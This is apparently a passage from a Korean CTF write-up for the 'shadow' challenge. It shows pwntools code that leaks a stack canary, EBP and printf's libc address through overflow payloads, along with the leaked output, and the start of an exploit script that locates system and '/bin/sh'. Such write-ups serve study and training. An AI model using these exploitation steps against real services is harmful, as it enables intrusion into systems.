 ```python

send("n", "-1", payload)
s.recvuntil(payload)
canary = u32("\x00" + s.recv(3))

print "[*] canary : " + hex(canary)

payload = "A"*32
payload += "AAAA" # canary
payload += "B"*8

send("n", "-1", payload)
s.recvuntil("B"*8)
ebp = u32(s.recv(4))

print "[*] ebp : " + hex(ebp)

payload = "A"*36
payload += "B"*8
payload += "C"*8 # EBP, RET
payload += p32(printf_got) # name_pointer

send("n", "-1", payload)
s.recvuntil("<")
real_printf = u32(s.recv(4))

print "[*] real_printf : " + hex(real_printf)
```

>[\*] canary : 0x1e0f1800<br />
[\*] ebp : 0xffb8082c<br />
\*\*\* stack smashing detected \*\*\*: <unknown> terminated<br />
[*] real_printf : 0xf7d862d0

원하는대로 다 되네요! 이제 `max_count`를 늘리고 `name_pointer`를 `EBP-256`으로 바꿔 `change name`으로 조작하겠습니다.

- - -
# 0x04. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "localhost"
#HOST = "pwn2.chal.ctf.westerns.tokyo"
PORT = 4444
#PORT = 18294

############################################

s = remote(HOST, PORT)

elf = ELF("./shadow")
libc = ELF("./libc-2.27.so")
pause()

############################################

printf_got = elf.got["printf"]

printf_off = libc.symbols["printf"]
system_off = libc.symbols["system"]
binsh_off = list(libc.search("/bin/sh"))[0] 
```